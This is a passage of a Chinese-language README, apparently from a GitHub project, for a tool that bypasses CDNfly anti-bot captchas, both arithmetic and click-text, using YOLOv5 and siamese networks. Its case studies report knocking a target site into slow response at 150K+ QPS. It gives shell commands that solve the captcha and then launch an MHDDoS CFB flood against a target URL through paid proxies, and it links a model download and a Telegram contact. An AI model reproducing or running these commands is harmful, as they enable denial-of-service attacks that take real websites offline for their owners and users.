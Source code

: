 **结果**:
- ✅ 成功绕过 CDNfly 验证码
- ✅ QPS: 150K+
- ✅ 持续时间: 5 分钟
- ✅ 目标站点响应缓慢

### 案例 2: 文字点选验证码站点

**目标**: 带困难文字点选的 CDNfly 站点  
**方法**: 孪生网络匹配 + MHDDoS CFB

```bash
# 1. 绕过文字点选
cd cdnfly_bypass/困难文字点选
python3 click.py  # 95% 成功率

# 2. 使用 MHDDoS
cd ../../mhddos
python3 start.py CFB 0 https://target.com 200 ../proxy_paid.txt 100 300
```

**结果**:
- ✅ 文字匹配成功率 95%
- ✅ 完全自动化
- ✅ 无需人工干预

---

## 📚 相关资源

### 官方链接

- **项目地址**: https://github.com/CoreTheBest/NewCdnfly_Bypass
- **模型下载**: https://mega.nz/file/inw3nQRA#jWcJNPi771vA4n0AIkDuqlUxJI2iiLm321PnvBDRneM
- **Telegram**: @Core_888

### 技术文档

- **YOLOv5**: https://github.com/ultralytics/yolov5
- **DrissionPage**: https://github.com/g1879/DrissionPage
- **PyTorch**: https://pytorch.org/

---

## 🎉 总结

### ✅ 核心优势

1. **全自动化** - 无需人工输入验证码
2. **高精度** - 95%+ 识别率
3. **快速** - 0.5-1.2 秒识别时间
4. **完全集成** - 与 NetStrike Pro 完美配合
5. **多种方法** - 支持计算和文字点选
